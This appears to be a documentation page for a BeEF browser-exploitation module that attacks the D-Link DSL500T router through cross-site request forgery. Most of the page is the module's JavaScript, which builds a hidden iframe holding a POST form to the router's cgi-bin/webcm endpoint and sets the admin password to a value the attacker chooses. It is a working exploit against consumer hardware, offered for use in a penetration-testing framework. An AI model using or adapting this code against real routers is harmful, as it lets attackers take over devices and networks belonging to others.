 ## Summary

* **Objective**: Changes the web password on a D-Link DSL500T CSRF
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/dlink_dsl500t_csrf)

## Internal Working

uses an iframe with a POST form to change the password of the DSL500T router

```js

  var gateway = '<%= @base %>';
  var passwd  = '<%= @password %>';
  var timeout = 15;

  var dsl500t_iframe_<%= @command_id %> = beef.dom.createIframeXsrfForm(gateway + "cgi-bin/webcm", "POST", "application/x-www-form-urlencoded",
      [{'type':'hidden', 'name':'getpage', 'value':'../html/tools/usrmgmt.htm'} ,
       {'type':'hidden', 'name':'security:settings/username', 'value':'admin'},
       {'type':'hidden', 'name':'security:settings/password', 'value':passwd},
       {'type':'hidden', 'name':'security:settings/password_confirm', 'value':passwd},
       {'type':'hidden', 'name':'security:settings/idle_timeout', 'value':'30'}
      ]);
  
```

## Feedback

